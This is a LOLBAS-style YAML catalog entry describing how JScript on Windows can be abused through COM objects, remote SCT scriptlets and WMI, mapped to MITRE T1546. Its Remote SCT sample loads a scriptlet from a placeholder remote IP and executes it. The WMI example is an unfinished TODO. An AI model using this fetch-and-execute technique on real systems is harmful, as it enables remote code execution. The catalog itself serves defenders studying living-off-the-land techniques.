 ```yaml
---
Name: JScript
Description: JScript is a common scripting language on Windows environements. It is Windows implementation of Javascript.
Author: 'Hegusung'
Created: 2024-10-23
Categories:
  - Category: COM Objects
    Description: JScript - COM
    Usecase: JScript can access and execute COM objects
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: Remote SCT
    Description: JScript - SCT
    Usecase: JScript can execute a SCT file using the GetObject function. Remote files can be accessed
    Code: |
      var SCTObj;
      SCTObj = GetObject("script: http://1.2.3.4/script.sct");
      SCTObj.Exec();
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: WMI
    Description: JScript - WMI
    Usecase: JScript can execute a WMI Queries by leveraging com objects
    Code: |
      TODO: Exemple code
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
Detection:
Resources:
  - Link: https://hegusung.github.io/LOLBAS-Project-hegusung.github.io/#/jscript
Acknowledgement:
  - Person: Hegusung
    Handle: '@hegusung'
---
```

